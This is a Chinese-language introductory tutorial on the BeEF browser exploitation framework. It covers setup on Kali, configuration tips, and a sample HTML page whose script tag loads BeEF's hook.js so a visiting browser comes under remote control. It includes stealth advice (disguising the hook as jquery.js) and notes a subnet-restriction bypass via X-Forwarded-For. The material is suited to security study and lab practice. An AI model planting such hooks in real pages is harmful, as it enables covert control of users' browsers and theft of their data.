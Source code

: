 ## BeEF框架 

BeEF（ The Browser Exploitation Framework） 是由Wade Alcorn 在2006年开始创建的，至今还在维护。是由ruby语言开发的专门针对浏览器攻击的框架。这个框架也属于cs的结构，具体可以看下图：

[![12.png](https://image.3001.net/images/20180626/15299931636046.png!small)](https://image.3001.net/images/20180626/15299931636046.png)zombie（僵尸）即受害的浏览器。zombie是被hook（勾连）的，如果浏览器访问了有勾子（由js编写）的页面，就会被hook，勾连的浏览器会执行初始代码返回一些信息，接着zombie会每隔一段时间（默认为1秒）就会向BeEF服务器发送一个请求，询问是否有新的代码需要执行。BeEF服务器本质上就像一个Web应用，被分为前端UI， 和后端。前端会轮询后端是否有新的数据需要更新，同时前端也可以向后端发送指示， BeEF持有者可以通过浏览器来登录BeEF 的后台管理UI。

## BeEF 安装和配置 

BeEF 需要ruby 2.3 + 和 SQLite (或者mysql/postgres)。

### 在kali下使用BeEF

kali默认已经安装BeEF了。BeEF是Favorites 菜单中的一个（可以看出它的受欢迎程度和地位了），其标志是一个蓝色的公牛。命令是beef-xss:

[![13.png](https://image.3001.net/images/20180626/15300262657337.png!small)](https://image.3001.net/images/20180626/15300262657337.png)

打开五秒后，它还会使用浏览器打开管理页面的UI，默认帐号密码是：beef/beef，默认管理页面的UI 地址是：http://127.0.0.1:3000/ui/panel

kali已经把beef-xss做成服务了，推荐使用systemctl 命令来启动或关闭beef服务器

```
systemctl start beef-xss.service  #开启beef
systemctl stop beef-xss.service     #关闭beef
systemctl restart beef-xss.service  #重启beef
```

### 配置BeEF 

kali下的BeEF配置文件在  /usr/share/beef-xss/config.yaml,其它的配置文件也在这个目录的子目录下，往后在使用某些功能时，需要修改对应的配置文件。自主安装的BeEF配置文件会在BeEF的主目录下config.yaml,建议修改几个地方：

```
### 指定某个网段，只有在这个网段的浏览器才能被hookpermitted_hooking_subnet: "0.0.0.0/0"
### 指定某个网段，只有在这个网段的浏览器才能访问管理UI
permitted_ui_subnet: "0.0.0.0/0"
### 上面这两项都是可以被绕过的，只要使用X-Forwarded-For首部绕过，一般不需要设置
###  设置beef服务器的主机， 如果有自己的域名， 那么可以设置自己的域名, 没有就使用默认host: "0.0.0.0"
###  设置beef服务器监听的端口， 可以自己定一个，比如8080, 记得端口号需要大于1024port: "3000"
### 受害浏览器轮询beef主机的时间， 默认为1秒，可以设置为更低。
xhr_poll_timeout: 1000
#public: ""      # public hostname/IP address
#public_port: "" # experimental
### 这是让BeEF运行在一个反向代理或者NAT环境下才需要设置的。
### 管理页面的URI， 默认是/ui, 建议修改，这样就不会让别人找到你的管理页面web_ui_basepath: "/ui"
### hook_file 的名称， 建议修改， 可以修改为jquery.js之类的来提升隐蔽性hook_file: "/hook.js"
### 管理页面登录的用户名和密码， 这个一定要改，两个都改是最好的credentials:     user:   "beef"   
passwd: "beef"
```

## 小试牛刀

接下来实际使用BeEF，体验一下。先开启BeEF服务器，接着用浏览器访问管理页面http://127.0.0.1:3000/ui/panel， 使用设置的用户/密码登录。

接着访问有勾子的页面http://127.0.0.1:3000/demos/basic.html 这里的主机名和端口号要按照你设置的来修改， 这里要注意一下kali下beef版本的勾子不支持IE8，最新版或者旧一些的版本可以。所以要使用其他浏览器来访问有勾子的页面。

下面给出一个写有勾子的页面，把创建文件test.html，并把下面内容写到其中：

```
<html>
<head>
<script src='http://127.0.0.1:3000/hook.js'></script> <!-- 这里的主机和端口号，需要和配置文件的一致。 -->
</head>
<body>
Hello World
</body>
</html>
```

接着使用一个浏览器来打开，那么这个浏览器就会被hook了。

查看管理页面UI会是类似下面图：

[![8.png](https://image.3001.net/images/20180627/15300656117260.png!small)](https://image.3001.net/images/20180627/15300656117260.png)

[![9.png](https://image.3001.net/images/20180627/15300659136276.png!small)](https://image.3001.net/images/20180627/15300659136276.png)选一个简单的模块来试试， 下图是选用了Host –> Detect Virtual Machine 模块来查看受害浏览器是否在虚拟机上运行的：

[![14.png](https://image.3001.net/images/20180627/15300745052254.png!small)](https://image.3001.net/images/20180627/15300745052254.png)BeEF的入门使用就是这么简单，所有的功能都已经写好了，我们只需要选择模块，设置参数（有时不需要），点击Execute 就可以了。 当然必须知道这些模块的作用才行。

读者可能发现在每个模块的前面都有一个有色（绿色，灰色，橙色，红色）的小圆标志。

[![5.png](https://image.3001.net/images/20180627/15300748849474.png!small)](https://image.3001.net/images/20180627/15300748849474.png)

在内部，BeEF可以检测出哪些命令模块可以在当前受害的浏览器工作， 并用颜色表示：

绿色：命令模块可以在目标浏览器上运行，且用户不会感到任何异常

橙色：命令模块可以在目标浏览器上运行，但是用户可能会感到异常（比如可能会有弹窗，提示，跳转等）

灰色：命令模块尚未针对此目标进行验证，即不知道能否可运行

红色：命令模块不适用于此目标